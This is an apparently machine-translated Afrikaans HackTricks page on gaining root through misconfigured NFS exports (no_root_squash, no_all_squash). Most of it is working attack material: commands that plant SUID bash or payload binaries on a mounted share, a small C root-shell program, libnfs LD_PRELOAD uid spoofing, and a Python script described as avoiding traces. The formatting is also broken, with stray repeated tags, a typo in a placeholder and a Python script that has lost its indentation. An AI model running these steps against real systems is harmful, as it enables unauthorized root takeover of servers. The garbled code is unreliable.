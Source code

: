 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


Lees die _ **/etc/exports** _ lêer, as jy 'n gids vind wat geconfigureer is as **no\_root\_squash**, dan kan jy dit **toegang** vanaf **as 'n kliënt** en **binne** daardie gids **skryf** **as**of jy die plaaslike **root** van die masjien was.

**no\_root\_squash**: Hierdie opsie gee basies gesag aan die root gebruiker op die kliënt om lêers op die NFS bediener as root te benader. En dit kan lei tot ernstige sekuriteitsimplikasies.

**no\_all\_squash:** Dit is soortgelyk aan die **no\_root\_squash** opsie, maar dit geld vir **nie-root gebruikers**. Stel jou voor, jy het 'n shell as nobody gebruiker; het die /etc/exports lêer nagegaan; die no\_all\_squash opsie is teenwoordig; kyk na die /etc/passwd lêer; emuleer 'n nie-root gebruiker; skep 'n suid lêer as daardie gebruiker (deur te monteer met nfs). Voer die suid uit as nobody gebruiker en word 'n ander gebruiker.

# Privilege Escalation

## Remote Exploit

As jy hierdie kwesbaarheid gevind het, kan jy dit benut:

* **Monteer daardie gids** in 'n kliënt masjien, en **as root kopieer** binne die gemonteerde gids die **/bin/bash** binêre en gee dit **SUID** regte, en **voerde** van die slagoffer masjien daardie bash binêre uit.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **Monteer daardie gids** op 'n kliëntmasjien, en **as root kopieer** binne die gemonteerde gids ons saamgecompileerde payload wat die SUID-toestemming sal misbruik, gee dit **SUID** regte, en **voer van die slagoffer** masjien daardie binêre uit (jy kan hier 'n paar [C SUID payloads](payloads-to-execute.md#c) vind).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
Let daarop dat as jy 'n **tunnel van jou masjien na die slagoffer masjien kan skep, jy steeds die Remote weergawe kan gebruik om hierdie privaatheidsverhoging te benut deur die vereiste poorte te tonnel**.\
Die volgende truuk is in die geval waar die lêer `/etc/exports` **'n IP aandui**. In hierdie geval **sal jy nie in staat wees om** in enige geval die **remote exploit** te gebruik nie en jy sal hierdie truuk **moet misbruik**.\
Nog 'n vereiste vir die exploit om te werk is dat **die eksport binne `/etc/export`** **die `insecure` vlag moet gebruik**.\
\--_Ek is nie seker of hierdie truuk sal werk as `/etc/export` 'n IP adres aandui nie_--
{% endhint %}

## Basic Information

Die scenario behels die benutting van 'n gemonteerde NFS deel op 'n plaaslike masjien, wat 'n fout in die NFSv3 spesifikasie benut wat die kliënt toelaat om sy uid/gid te spesifiseer, wat moontlik ongeoorloofde toegang moontlik maak. Die benutting behels die gebruik van [libnfs](https://github.com/sahlberg/libnfs), 'n biblioteek wat die vervalsing van NFS RPC oproepe toelaat.

### Compiling the Library

Die biblioteek kompilasietappe mag aanpassings vereis gebaseer op die kern weergawe. In hierdie spesifieke geval is die fallocate syscalls uitkommentaar. Die kompilasieproses behels die volgende opdragte:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Voer die Exploit uit

Die exploit behels die skep van 'n eenvoudige C-programma (`pwn.c`) wat voorregte na root verhoog en dan 'n shell uitvoer. Die program word gecompileer, en die resulterende binêre (`a.out`) word op die deel geplaas met suid root, met behulp van `ld_nfs.so` om die uid in die RPC-oproepe te vervals:

1. **Compileer die exploit kode:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Plaas die exploit op die deel en wysig sy toestemmings deur die uid te vervals:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Voer die exploit uit om root voorregte te verkry:**
```bash
/mnt/share/a.out
#root
```

## Bonus: NFShell vir Stealthy Lêertoegang
Sodra root toegang verkry is, om met die NFS deel te kommunikeer sonder om eienaarskap te verander (om spore te vermy), word 'n Python-skrip (nfsh.py) gebruik. Hierdie skrip pas die uid aan om ooreen te stem met dié van die lêer wat toeganklik is, wat interaksie met lêers op die deel moontlik maak sonder toestemmingkwessies:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
Hardloop soos:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
